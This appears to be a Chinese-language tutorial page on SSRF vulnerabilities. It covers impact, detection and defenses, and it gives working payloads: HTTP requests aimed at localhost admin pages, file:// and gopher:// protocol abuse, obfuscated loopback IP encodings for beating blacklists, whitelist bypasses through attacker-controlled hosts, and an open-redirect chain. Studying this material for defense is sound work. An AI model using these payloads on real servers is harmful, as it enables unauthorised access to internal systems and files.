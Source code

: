 ```yaml
---
sidebar_position: 3
tags: [OWASP, SSRF]
title: SSRF
sidebar_label: SSRF
description: 介绍 SSRF 注入漏洞&ByPass&利用
---
```

# SSRF
## 介绍
SSRF 是一种**由攻击者构造请求, 由服务端发起请求**的安全漏洞, 因此一般情况下，SSRF攻击的目标是外网无法访问的内部系统（正因为请求是由服务器端发起的，所以服务器能请求到与自身相连而外网隔离的内部系统）
:::tip
简而言之：SSRF利用存在缺陷的Web应用作为代理攻击远程和本地的服务器, 也可以直观的理解为是一个代理服务器
:::

## Exploit

一般而言, 对于 SSRF 漏洞的最大危害是 `突破了网络边界` , 基本可以达到下面几种危害(但具体能做到哪种程度还需要根据业务环境来判断)
- 扫描内网, 获取主机、端口的情况
- 内网系统攻击: 比如攻击内网 Redis
- 读取文件

:::tip[SSRF 的分类]
- 回显 SSRF : 这种比较简单, 直接响应数据就可以实现判断
- 无回显 SSRF : 难度比较大, 一般可以通过响应时间等来进行判断
:::

### 定位漏洞
通常来说, 根据链接来判断是否存在 SSRF 漏洞是最为直接的方式, 比如 : URL 关键参数
![20240426100728](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240426100728.png)

### 访问后台页面
如果目标存在 SSRF 漏洞, 且存在回显的时候可以使用这种方式来访问后台 (因为一部分网站禁止非本地访问后台)
```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

### 协议利用
利用可以利用这种方式扫描内网、查看文件、或者做一些其他操作

* `file://` : 查看文件
* `http://` : 探测内网存活主机
* `dict://` : 探测内网端口
* `sftp://`
* `tftp://`
* `ldap://`
* `gopher://`



## 防御
- 禁止不必要的协议 : `file://` 、`gopher://` 、`dict://` 等
- 统一错误消息, 避免出现根据错误消息判断端口状态等情况
- 禁止 302 跳转，或者每个跳转时进行检查是否是内网 IP
- 设置白名单或限制内网 IP

## ByPass
### URL 解析绕过

这是orange在blackhat大会上提出的 [A-New-Era-Of-SSRF-Exploiting](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)，利用语言本身自带的解析函数差异来绕过检测，在该ppt中举例了大量不同编程语言的url解析函数对url解析的差异，从而导致check_ssrf和do_curl解析不同导致的绕过, 我们在此以 Python 作为举例

```py
import urllib3
from urllib.parse import urlparse

if __name__ == "__main__":
    url = "http://baidu.com\@qq.com"
    print(urllib3.get_host(url))
    print(urllib3.util.parse_url(url).host)
    print(urlparse(url).hostname)
```
<div style={{textAlign:'center'}}>
  ![20240426102031](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240426102031.png)
</div>

可以看到，对于`http://baidu.com\@qq.com` 来说，urllib3取到的host是baidu.com，而urllib取到的host是qq.com, 如果在check_ssrf中解析url函数用的是urllib3，而业务代码发送请时采用的是urllib，两者之间的解析差异就会导致绕过的情况。

### 更换 IP 地址写法
这种方式多用于绕过黑名单

```bash
http://2130706433/
http://017700000001/
http://localhost/         # localhost就是代指127.0.0.1
http://0/                 # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
http://[0:0:0:0:0:ffff:127.0.0.1]/    # 在liunx下可用，window测试了下不行
http://[::]/           # 在liunx下可用，window测试了下不行

http://127。0。0。1/       # 用中文句号绕过
http://①②⑦.⓪.⓪.①
http://127.1/
http://127.00000.00000.001/ # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1
```

### 白名单绕过

* @ : 允许我们在主机名之前插入凭据
  ```url
  <user>:<password>@<host>:<port>/<url-path>

  <http://abc@127.0.0.1>
  实际上是以用户名abc连接到站点127.0.0.1，同理
  ```
*  `#` 用于指示 URL 片段
    ```url
    <https://evil-host#expected-host>
    ```
* 用 DNS 命名层次结构将所需输入放入我们控制的完全限定 DNS 名称
  ```url
  <https://expected-host.evil-host>
  # 原理是DNS解析。xip.io可以指向任意域名，即
  127.0.0.1.xip.io，可解析为127.0.0.1
  ```
* 应用程序指定 `https://website.com` 开头的规则，我们可以在我们的域名上创建子域来规避： `http://website.com.attackers.com`
* URL 编码混淆

### 开放重定向
有时可以通过利用开放重定向漏洞来规避任何类型的基于过滤器的防御。 在前面的 SSRF 示例中，假设用户提交的 URL 被严格验证以防止恶意利用 SSRF 行为。但是，允许使用 URL 的应用程序存在开放重定向漏洞。如果用于发出后端 HTTP 请求的 API 支持重定向，您可以构建一个满足过滤器的 URL，并将请求重定向到所需的后端目标。 例如，假设应用程序包含一个开放重定向漏洞，其中包含以下 URL：

```url
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```

返回重定向到：

```url
http://evil-user.net
```

可以利用开放重定向漏洞绕过URL过滤，利用SSRF漏洞，方法如下：

```html
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

> 此 SSRF 漏洞利用之所以有效，是因为应用程序首先验证提供的`stockAPI`URL 是否位于允许的域中，而事实确实如此。然后应用程序请求提供的 URL，这会触发打开重定向。它遵循重定向，并向攻击者选择的内部 URL 发出请求。

```bash
/%09/google.com
/%5cgoogle.com
//www.google.com/%2f%2e%2e
//www.google.com/%2e%2e
//google.com/
//google.com/%2f..
//\\google.com
/\\victim.com:80%40google.com
```